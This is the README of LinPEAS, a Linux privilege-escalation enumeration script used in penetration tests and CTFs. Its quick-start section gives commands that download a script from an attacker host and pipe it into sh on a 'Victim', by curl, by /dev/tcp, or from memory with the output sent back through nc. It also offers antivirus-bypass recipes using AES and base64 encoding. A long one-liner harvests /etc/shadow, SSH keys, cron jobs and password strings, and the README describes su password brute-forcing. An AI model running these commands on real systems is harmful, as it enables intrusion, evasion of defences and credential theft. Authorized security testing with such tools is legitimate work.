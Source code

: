 # LinPEAS - Linux Privilege Escalation Awesome Script 
[![CI-linpeas_prod](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/actions/workflows/CI-linpeas_prod.yml/badge.svg)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/actions/workflows/CI-linpeas_prod.yml)

![](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/images/linpeas.png)

**LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix\* hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation)**

Check the **Local Linux Privilege Escalation checklist** from **[book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)**.

[![asciicast](https://asciinema.org/a/250532.png)](https://asciinema.org/a/309566)


## Quick Start
```bash
#From github
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

```bash
#Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

#Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

#Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

```bash
#Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```

## AV bypass
```bash
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

**Use the parameter `-a` to execute all these checks.**

## MacPEAS

Just execute `linpeas.sh` in a MacOS system and the **MacPEAS version will be automatically executed!!**

## Basic Information

The goal of this script is to search for possible **Privilege Escalation Paths** (tested in Debian, CentOS, FreeBSD and OpenBSD).

This script doesn't have any dependency.

It uses **/bin/sh** syntax, so can run in anything supporting `sh` (and the binaries and parameters used).

By default, **linpeas won't write anything to disk and won't try to login as any other user using `su`**.

By default linpeas takes around **2 mins** to complete, but It could take from **4 to 5 minutes** to execute all the checks using **-a** parameter *(Recommended option for CTFs)*:
- From less than 1 min to 2 mins to make almost all the checks
- Almost 1 min to search for possible passwords inside all the accesible files of the system
- 20s/user bruteforce with top2000 passwords *(need `-a`)* - Notice that this check is **super noisy**
- 1 min to monitor the processes in order to find very frequent cron jobs *(need `-a`)* - Notice that this check will need to **write** some info inside a file that will be deleted

**Other parameters:**
- **-a** (all checks) - This will **execute also the check of processes during 1 min, will search more possible hashes inside files, and brute-force each user using `su` with the top2000 passwords.**
- **-s** (superfast & stealth) - This will bypass some time consuming checks - **Stealth mode** (Nothing will be written to disk)
- **-P** (Password) - Pass a password that will be used with `sudo -l` and bruteforcing other users

This script has **several lists** included inside of it to be able to **color the results** in order to highlight PE vector.

LinPEAS also **exports a new PATH** variable during the execution if common folders aren't present in the original PATH variable. It also **exports and unset** some environmental variables during the execution so no command executed during the session will be saved in the history file (you can avoid this actions using the parameter **-n**).

![](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/images/help.png)

## Hosts Discovery and Port Scanning

With LinPEAS you can also **discover hosts automatically** using `fping`, `ping` and/or `nc`, and **scan ports** using `nc`.

LinPEAS will **automatically search for this binaries** in `$PATH` and let you know if any of them is available. In that case you can use LinPEAS to hosts dicovery and/or port scanning.

![](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/images/network.png)


## Colors

<details>
<summary>Details</summary>

LinPEAS uses colors to indicate where does each section begin. But **it also uses them the identify potencial misconfigurations**.

The ![](https://placehold.it/15/b32400/000000?text=+) **Red/Yellow** ![](https://placehold.it/15/fff500/000000?text=+) color is used for identifing configurations that lead to PE (99% sure).

The ![](https://placehold.it/15/b32400/000000?text=+) **Red** color is used for identifing suspicious configurations that could lead to PE:
- Possible exploitable kernel versions
- Vulnerable sudo versions
- Identify processes running as root
- Not mounted devices
- Dangerous fstab permissions
- Writable files in interesting directories
- SUID/SGID binaries that have some vulnerable version (it also specifies the vulnerable version)
- SUDO binaries that can be used to escalate privileges in sudo -l (without passwd) (https://gtfobins.github.io/)
- Check /etc/doas.conf
- 127.0.0.1 in netstat
- Known files that could contain passwords
- Capabilities in interesting binaries
- Interesting capabilities of a binary
- Writable folders and wilcards inside info about cron jobs
- Writables folders in PATH
- Groups that could lead to root
- Files that could contains passwords
- Suspicious cronjobs

The ![](https://placehold.it/15/66ff33/000000?text=+) **Green** color is used for:
- Common processes run by root
- Common not interesting devices to mount
- Not dangerous fstab permissions
- SUID/SGID common binaries (the bin was already found in other machines and searchsploit doesn't identify any vulnerable version)
- Common .sh files in path
- Common names of users executing processes
- Common cronjobs

The ![](https://placehold.it/15/0066ff/000000?text=+) **Blue** color is used for:
- Users without shell
- Mounted devices

The ![](https://placehold.it/15/33ccff/000000?text=+) **Light Cyan** color is used for:
- Users with shell

The ![](https://placehold.it/15/bf80ff/000000?text=+) **Light Magenta** color is used for:
- Current username

</details>

## One liner

Here you have an old linpe version script in one line, **just copy and paste it**;)

**The color filtering is not available in the one-liner** (the lists are too big)

This one-liner is deprecated (I am not going to update it more), but it could be useful in some cases so it will remain here:

The default file where all the data is recorded is: */tmp/linPE* (you can change it at the beginning of the script)


```sh
file="/tmp/linPE";RED='\033[0;31m';Y='\033[0;33m';B='\033[0;34m';NC='\033[0m';rm -rf $file;echo "File: $file";echo "[+]Gathering system information...";printf $B"[*] "$RED"BASIC SYSTEM INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Operative system\n"$NC >> $file;(cat /proc/version || uname -a ) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"PATH\n"$NC >> $file;echo $PATH 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Date\n"$NC >> $file;date 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo version\n"$NC >> $file;sudo -V 2>/dev/null| grep "Sudo ver" >> $file;echo "" >> $file;printf $Y"[+] "$RED"selinux enabled?\n"$NC >> $file;sestatus 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Useful software?\n"$NC >> $file;which nc ncat netcat wget curl ping gcc make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Capabilities\n"$NC >> $file;getcap -r / 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Environment\n"$NC >> $file;(set || env) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Top and cleaned proccesses\n"$NC >> $file;ps aux 2>/dev/null | grep -v "\[" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Binary processes permissions\n"$NC >> $file;ps aux 2>/dev/null | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++' 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Services\n"$NC >> $file;(/usr/sbin/service --status-all || /sbin/chkconfig --list || /bin/rc-status) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Different processes executed during 1 min (HTB)\n"$NC >> $file;if [ "`ps -e --format cmd`" ]; then for i in {1..121}; do ps -e --format cmd >> $file.tmp1; sleep 0.5; done; sort $file.tmp1 | uniq | grep -v "\[" | sed '/^.\{500\}./d' >> $file; rm $file.tmp1; fi;echo "" >> $file;printf $Y"[+] "$RED"Proccesses binary permissions\n"$NC >> $file;ps aux 2>/dev/null | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++' 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Scheduled tasks\n"$NC >> $file;crontab -l 2>/dev/null >> $file;ls -al /etc/cron* 2>/dev/null >> $file;cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root /var/spool/anacron 2>/dev/null | grep -v "^#" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Any sd* disk in /dev?\n"$NC >> $file;ls /dev 2>/dev/null | grep -i "sd" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Storage information\n"$NC >> $file;df -h 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Unmounted file-system?\n"$NC >> $file;cat /etc/fstab 2>/dev/null | grep -v "^#" >> $file;echo "" >> $file;printf $Y"[+] "$RED"Printer?\n"$NC >> $file;lpstat -a 2>/dev/null >> $file;echo "" >> $file;echo "" >> $file;echo "[+]Gathering network information...";printf $B"[*] "$RED"NETWORK INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Hostname, hosts and DNS\n"$NC >> $file;cat /etc/hostname /etc/hosts /etc/resolv.conf 2>/dev/null | grep -v "^#" >> $file;dnsdomainname 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Networks and neightbours\n"$NC >> $file;cat /etc/networks 2>/dev/null >> $file;(ifconfig || ip a) 2>/dev/null >> $file;iptables -L 2>/dev/null >> $file;ip n 2>/dev/null >> $file;route -n 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Ports\n"$NC >> $file;(netstat -punta || ss -t; ss -u) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Can I sniff with tcpdump?\n"$NC >> $file;timeout 1 tcpdump >> $file 2>&1;echo "" >> $file;echo "" >> $file;echo "[+]Gathering users information...";printf $B"[*] "$RED"USERS INFO\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"Me\n"$NC >> $file;(id || (whoami && groups)) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo -l without password\n"$NC >> $file;echo '' | sudo -S -l -k 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Do I have PGP keys?\n"$NC >> $file;gpg --list-keys 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Superusers\n"$NC >> $file;awk -F: '($3 == "0") {print}' /etc/passwd 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Login\n"$NC >> $file;w 2>/dev/null >> $file;last 2>/dev/null | tail >> $file;echo "" >> $file;printf $Y"[+] "$RED"Users with console\n"$NC >> $file;cat /etc/passwd 2>/dev/null | grep "sh$" >> $file;echo "" >> $file;printf $Y"[+] "$RED"All users\n"$NC >> $file;cat /etc/passwd 2>/dev/null | cut -d: -f1 >> $file;echo "" >> $file;echo "" >> $file;echo "[+]Gathering files information...";printf $B"[*] "$RED"INTERESTING FILES\n"$NC >> $file ;echo "" >> $file;printf $Y"[+] "$RED"SUID\n"$NC >> $file;find / -perm -4000 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"SGID\n"$NC >> $file;find / -perm -g=s -type f 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Files inside \$HOME (limit 20)\n"$NC >> $file;ls -la $HOME 2>/dev/null | head -n 20 >> $file;echo "" >> $file;printf $Y"[+] "$RED"20 First files of /home\n"$NC >> $file;find /home -type f 2>/dev/null | column -t | grep -v -i "/"$USER | head -n 20 >> $file;echo "" >> $file;printf $Y"[+] "$RED"Files inside .ssh directory?\n"$NC >> $file;find  /home /root -name .ssh 2>/dev/null -exec ls -laR {} \; >> $file;echo "" >> $file;printf $Y"[+] "$RED"*sa_key* files\n"$NC >> $file;find / -type f -name "*sa_key*" -ls 2>/dev/null -exec ls -l {} \; >> $file;echo "" >> $file;printf $Y"[+] "$RED"Mails?\n"$NC >> $file;ls -alh /var/mail/ /var/spool/mail/ 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"NFS exports?\n"$NC >> $file;cat /etc/exports 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Hashes inside /etc/passwd? Readable /etc/shadow or /etc/master.passwd?\n"$NC >> $file;grep -v '^[^:]*:[x]' /etc/passwd 2>/dev/null >> $file;cat /etc/shadow /etc/master.passwd 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Readable /root?\n"$NC >> $file;ls -ahl /root/ 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Inside docker or lxc?\n"$NC >> $file;dockercontainer=`grep -i docker /proc/self/cgroup  2>/dev/null; find / -name "*dockerenv*" -exec ls -la {} \; 2>/dev/null`;lxccontainer=`grep -qa container=lxc /proc/1/environ 2>/dev/null`;if [ "$dockercontainer" ]; then echo "Looks like we're in a Docker container" >> $file; fi;if [ "$lxccontainer" ]; then echo "Looks like we're in a LXC container" >> $file; fi;echo "" >> $file;printf $Y"[+] "$RED"*_history, profile, bashrc, httpd.conf\n"$NC >> $file;find / -type f \( -name "*_history" -o -name "profile" -o -name "*bashrc" -o -name "httpd.conf" \) -exec ls -l {} \; 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"All hidden files (not in /sys/) (limit 100)\n"$NC >> $file;find / -type f -iname ".*" -ls 2>/dev/null | grep -v "/sys/" | head -n 100 >> $file;echo "" >> $file;printf $Y"[+] "$RED"What inside /tmp, /var/tmp, /var/backups\n"$NC >> $file;ls -a /tmp /var/tmp /var/backups 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Interesting writable Files\n"$NC >> $file;USER=`whoami`;HOME=/home/$USER;find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | grep -v '/sys/fs'| sort | uniq >> $file;for g in `groups`; do find / \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME | grep -v '/sys/fs'; done >> $file;echo "" >> $file;printf $Y"[+] "$RED"Web files?(output limited)\n"$NC >> $file;ls -alhR /var/www/ 2>/dev/null | head >> $file;ls -alhR /srv/www/htdocs/ 2>/dev/null | head >> $file;ls -alhR /usr/local/www/apache22/data/ 2>/dev/null | head >> $file;ls -alhR /opt/lampp/htdocs/ 2>/dev/null | head >> $file;echo "" >> $file;printf $Y"[+] "$RED"Backup files?\n"$NC >> $file;find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \( -name "*back*" -o -name "*bck*" \) 2>/dev/null >> $file;echo "" >> $file;printf $Y"[+] "$RED"Find IPs inside logs\n"$NC >> $file;grep -a -R -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}' /var/log/ 2>/dev/null | sort | uniq >> $file;echo "" >> $file;printf $Y"[+] "$RED"Find 'password' or 'passw' string inside /home, /var/www, /var/log, /etc\n"$NC >> $file;grep -lRi "password\|passw" /home /var/www /var/log 2>/dev/null | sort | uniq >> $file;echo "" >> $file;printf $Y"[+] "$RED"Sudo -l (you need to puts the password and the result appear in console)\n"$NC >> $file;sudo -l;
```
## What does linpeas look for
<details>
  <summary>Details</summary>
  
- **System Information**
  - [x] SO & kernel version 
  - [x] Sudo version
  - [x] USBCreator PE
  - [x] PATH
  - [x] Date
  - [x] System stats
  - [x] Environment vars
  - [x] AppArmor, grsecurity, Execshield, PaX, SElinux, ASLR
  - [x] Printers
  - [x] Dmesg (signature verifications)
  - [x] Container?

- **Devices**
  - [x] sd* in /dev
  - [x] Unmounted filesystems

- **Available Software**
  - [x] Useful software
  - [x] Installed compilers

- **Processes, Cron, Services, Timers & Sockets**
  - [x] Cleaned processes
  - [x] Binary processes permissions
  - [x] Different processes executed during 1 min
  - [x] Cron jobs
  - [x] Services (list, writable .service, writable services binaries, systemd path, service binaries using relative path)
  - [x] All timers (list, writable .timer, writable binaries, relative paths)
  - [x] Sockets
  - [x] D-Bus

- **Network Information**
  - [x] Hostname, hosts & dns
  - [x] Content of /etc/inetd.conf
  - [x] Networks and neighbours
  - [x] Iptables rules
  - [x] Active ports
  - [x] Sniff permissions (tcpdump)

- **Users Information**
  - [x] Info about current user
  - [x] PGP keys
  - [x] `sudo -l` without password
  - [x] doas config file
  - [x] Pkexec policy
  - [x] Try to login using `su` as other users (using as passwords: null pass, username, reverse username, and top2000pwds)
  - [x] List of superusers
  - [x] List of users with console
  - [x] Login info (now, last logons, last time each user)
  - [x] List of all users
  - [x] Clipboard and highlighted text
  - [x] Password policy

- **Software Information**
  - [x] MySQl (Version, user being configured, loging as "root:root","root:toor","root:", user hashes extraction via DB and file, possible backup user configured, credentials in config, cmd exec library)
  - [x] PostgreSQL (Version, try login in "template0" and "template1" as: "postgres:", "psql:", file DBs, Config)
  - [x] Apache (Version)
  - [x] PHP cookies
  - [x] Wordpress (Database credentials)
  - [x] Drupal (Database credentials)
  - [x] Moodle (Database credentials)
  - [x] Tomcat (Credentials)
  - [x] Mongo (Version, Credentials)
  - [x] Supervisor (Credentials)
  - [x] Cesi (Credentials)
  - [x] Rsyncd (Credentials)
  - [x] Hostapd (Credentials)
  - [x] Wifi (Credentials)
  - [x] Anaconda-ks (Credentials)
  - [x] VNC (Credentials)
  - [x] LDAP database (Credentials)
  - [x] Open VPN files (Credentials)
  - [x] SSH (private keys, known_hosts, authorized_hosts, authorized_keys, main config parameters in sshd_config, certificates, agents)
  - [X] PAM-SSH (Unexpected "auth" values)
  - [x] Cloud Credentials (credenals-AWS-, credentials.gb-GC-, legacy_credentials-GC-, access_tokens.db-GC-, accessTokens.json-Azure-, azureProfile.json-Azure-)
  - [x] NFS (privilege escalation misconfiguration)
  - [x] Kerberos (configuration & tickets in /tmp)
  - [x] Kibana (credentials)
  - [x] Logstash (Username and possible code execution)
  - [x] Elasticseach (Config info and Version via port 9200)
  - [x] Vault-ssh (Config values, secrets list and .vault-token files)
  - [x] screen and tmux sessions
  - [x] Couchdb
  - [x] Redis
  - [x] Dovecot
  - [x] Mosquitto
  - [x] Neo4j
  - [x] Cloud-Init
  - [x] Erlang Cookie
  - [X] GVM config
  - [x] IPSEC files
  - [x] IRSSI config file
  - [x] Keyring files
  - [x] Filelliza files
  - [x] Backup-manager
  - [x] Splunk
  - [x] Gitlab
  - [x] PGP/GPG files
  - [x] Vim swp files
  - [x] ctr
  - [x] runc
  - [x] Firefox user files
  - [x] Google Chrome user files
  - [x] Autologin files
  - [x] S/Key
  - [x] YubiKey
  - [x] Passwords inside pam.d
  - [x] FastCGI params
  - [x] SNMPD

- **Generic Interesting Files**
  - [x] SUID & SGID files
  - [x] Capabilities
  - [x] /etc/ld.so.conf.d/
  - [x] Users with capabilities
  - [x] Files with ACLs
  - [x] .sh scripts in PATH
  - [x] scripts in /etc/profile.d
  - [x] scripts in init, init.d and systemd
  - [x] Hashes (passwd, group, shadow & master.passwd)
  - [x] Credentials in fstab
  - [x] Try to read root dir
  - [x] Files owned by root inside /home
  - [x] List of readable files belonging to root and not world readable
  - [x] Files modified in the last 5 minutes
  - [x] Log files (logrotten)
  - [x] Others files inside a folder owned by the current user
  - [x] Reduced list of files inside my home and /home
  - [x] Mail applications
  - [x] Mails
  - [x] Backup files
  - [x] DB files
  - [x] Web files
  - [x] Files that can contain passwords (and search for passwords inside *_history files)
  - [x] List of all hidden files
  - [x] List ALL writable files for current user (global, user and groups)
  - [x] Inside /tmp, /var/tmp and /var/backups
  - [x] Password ins config PHP files
  - [x] Get IPs, passwords and emails from logs
  - [x] password or credential files in home
  - [x] "pwd" and "passw" inside files (and get most probable lines)
  - [x] Check for posible variable names containing credentials in files
  - [x] Find "username" in fils
  - [x] Specific hashes (blowfish, joomla&vbulletin, phpbb3, wp, drupal, linuxmd5, apr1md5, sha512crypt, apachesha)
  - [x] Generic hashes MD5, SHA1, SHA256, SHA512
</details>

## Let's improve PEASS together

If you want to **add something** and have **any cool idea** related to this project, please let me know it in the **telegram group https://t.me/peass** or using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues)** and we will update the master version.

## Please, if this tool has been useful for you consider to donate

[![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donateCC_LG.gif)](https://www.patreon.com/peass)

## PEASS Style

Are you a PEASS fan? Get now our merch at **[PEASS Shop](https://teespring.com/stores/peass)** and show your love for our favorite peas

## TODO

- Add more checks
- Mantain updated the list of vulnerable SUID binaries
- Mantain updated all the blacklists used to color the output
- Support for MacOS

If you want to help with any of this, you can do it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues) or you can submit a pull request**.

If you find any issue, please report it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues)**.


**Linpeas** is being **updated** every time I find something that could be useful to escalate privileges.

## Advisory

All the scripts/binaries of the PEAS Suite should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.

## License

MIT License

By Polop<sup>(TM)</sup>
